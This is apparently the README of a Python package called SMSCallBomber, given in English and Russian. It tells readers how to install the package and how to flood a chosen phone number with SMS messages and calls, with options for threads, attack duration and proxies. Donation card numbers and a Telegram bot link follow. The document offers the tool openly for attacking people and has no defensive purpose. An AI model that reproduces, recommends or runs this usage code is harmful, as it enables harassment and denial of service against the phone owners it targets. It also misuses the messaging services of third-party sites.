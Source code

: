 # SMSCallBomber

## English

### Description

This library provides functionality for SMS and call bombing.

### Installation

You can install the SMSCallBomber library via pip:

```bash
pip install SMSCallBomber
```

### Usage

```python
from smscallbomber import SMSCallBomber
import time
from argparse import Namespace

# Creating an instance of SMSCallBomber
args = Namespace(country='Two letter country code (Specify ALL for all countries)', phone=Phone number for attack (without +), time=Attack time in seconds, threads=Number of threads, timeout=Request timeout, proxy=Whether to use a proxy for attack (True or False))
args.time += time.time()
bomber = SMSCallBomber(args)

# Starting the attack
bomber.run()

# Stopping the attack
bomber.stop()
time.sleep(5) # Increase the time if the results contain zeros
successful, failed = bomber.send_report()
print(f"Successfully sent (Not everyone can get there!): {successful}")
print(f"Failed to send: {failed}")

# Returns the result of the attack after it ends
time.sleep(5) # Increase the time if the results contain zeros
successful, failed = bomber.send_report()
print(f"Successfully sent (Not everyone can get there!): {successful}")
print(f"Failed to send: {failed}")
```

### Donation

If you find this project helpful and would like to support its development, you can make a donation to the author.

- YooMoney: 4100118510603906
- Cards:
  - 2200 7009 6755 8080 - Tinkoff
  - 2202 2068 1279 8101 - Sberbank
- Other methods: [t.me/BabayHelpBot](https://t.me/BabayHelpBot)

### License

This project is licensed under the MIT License.

## Русский

### Описание

Эта библиотека предоставляет функционал для SMS бомбера со звонками.

### Установка

Вы можете установить библиотеку SMSCallBomber с помощью pip:

```bash
pip install SMSCallBomber
```

### Использование

```python
from smscallbomber import SMSCallBomber
import time
from argparse import Namespace

# Создание экземпляра SMSCallBomber
args = Namespace(country='Двухбуквенный код страны (Укажите ALL для всех стран)', phone=Номер телефона для атаки (без +), time=Время атаки в секундах, threads=Количество потоков, timeout=Время ожидания запроса, proxy=Использовать ли прокси для атаки (True или False))
args.time += time.time()
bomber = SMSCallBomber(args)

# Запуск атаки
bomber.run()

# Остановка атаки
bomber.stop()
time.sleep(5) # Увеличьте время если в результатах по нулям
successful, failed = bomber.send_report()
print(f"Успешно отправлено(Дойти могут не все!): {successful}")
print(f"Не удалось отправить: {failed}")

# Возвращает результат атаки после её окончания
time.sleep(5) # Увеличьте время если в результатах по нулям
successful, failed = bomber.send_report()
print(f"Успешно отправлено(Дойти могут не все!): {successful}")
print(f"Не удалось отправить: {failed}")
```

### Пожертвование

Если вы нашли этот проект полезным и хотели бы поддержать его развитие, вы можете сделать пожертвование автору.

- ЮMoney: 4100118510603906
- Карты:
  - 2200 7009 6755 8080 - Тинькофф
  - 2202 2068 1279 8101 - Сбербанк
- Другие способы: [t.me/BabayHelpBot](https://t.me/BabayHelpBot)

### Лицензия

Этот проект распространяется под лицензией MIT License.